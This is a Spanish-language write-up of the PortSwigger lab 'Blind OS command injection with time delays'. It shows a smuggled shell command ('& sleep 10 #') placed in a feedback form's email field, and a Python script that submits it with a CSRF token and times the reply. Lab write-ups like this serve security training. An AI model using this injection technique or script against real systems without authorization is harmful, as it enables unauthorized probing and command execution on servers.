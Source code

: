 ```yaml
---
title: "02 Blind OS command injection with time delays"
collection: publications
category: portswigger
permalink: publications/Command Injection/02_Blind OS command injection with time delays
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección de comandos de SO ciego en la función de retroalimentación. La aplicación ejecuta un comando shell que contiene los detalles proporcionados por el usuario. La salida del comando no se devuelve en la respuesta.'
date: 2024-12-08
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Blind OS command injection with time delays'
---
```


![logo]({{site.url}}/images/Command Injection/command-lab-2/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Command Injection/command-lab-2/descripcion.png)

## Objetivo del laboratorio

Para resolver el problema, explotamos la vulnerabilidad de inyección ciega de comandos del sistema operativo para provocar un retraso de 10 segundos.

## Analisis

Probamos la entrade del formulario y la capturamos con el Burpsuite

![Conf1]({{site.url}}/images/Command Injection/command-lab-2/conf1.png)

Probamos con cada campo a ver cual es vulnerable, probamos el comando `& sleep 10 #` si se demora 10 segundos es vulnerable.

![Conf2]({{site.url}}/images/Command Injection/command-lab-2/conf2.png)

# Aprobado

![Aprobado]({{site.url}}/images/Command Injection/command-lab-2/aprobado.png)

# Codigo Python

```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def get_csrf_token(s, url):
    feedback_path = '/feedback'
    r = s.get(url + feedback_path, verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find("input")['value']
    return csrf

def check_command_injection(s, url):
    submit_feedback_path = '/feedback/submit'
    command_injection = 'test@test.ca & sleep 10 #'
    csrf_token = get_csrf_token(s, url)
    data = {'csrf': csrf_token, 'name': 'test', 'email': command_injection, 'subject': 'test', 'message': 'test'}
    res = s.post(url + submit_feedback_path, data=data, verify=False, proxies=proxies)
    if (res.elapsed.total_seconds() >=10):
        print("(+) Email field vulnerable to time-based command injection!")
    else:
        print("(-) Email field not vulnerable to time-based command injection")

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Checking if email parameter is vulnerable to time-based command injection...")

    s = requests.Session()
    check_command_injection(s, url)

if __name__ == "__main__":
    main()
```
